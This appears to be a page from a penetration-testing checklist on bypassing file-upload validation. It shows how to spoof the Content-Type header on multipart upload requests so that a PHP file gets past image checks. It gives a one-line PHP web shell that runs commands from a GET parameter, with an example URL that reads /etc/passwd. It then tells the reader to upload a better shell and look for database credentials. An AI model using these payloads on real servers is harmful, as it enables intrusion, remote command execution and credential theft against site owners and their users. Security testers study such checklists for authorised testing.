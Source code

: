 ## Test Case - 3: Content-type validation

```
1. Find the upload request and send it to the repeater
2. Upload file.php and change the Content-type: application/x-php or Content-Type : application/octet-stream to Content-type: image/png or Content-type: image/gif or Content-type: image/jpg

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. If successful then exploit further, or there might be other type of validation or
	 check so try other bypass.

```

## Test Case - 4: Content-Length validation

```
1. Find the upload request and send it to the repeater
2. Try all three above bypass first, if they doesn't works then see if file size is been
	 checked. Try all four of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. Try small file payload like

<?=`$_GET[x]`?>
<?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

4. Finally the request should look like this. if this worked then try to access this file
	 For Example: <http://example.com/compromised_file.php?x=cat%20%2Fetc%2Fpasswd>

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

<?=`$_GET[x]`?>

5. Dont stop here, upload better shell and try to see if you can find something more
	 critical like DB_.

```
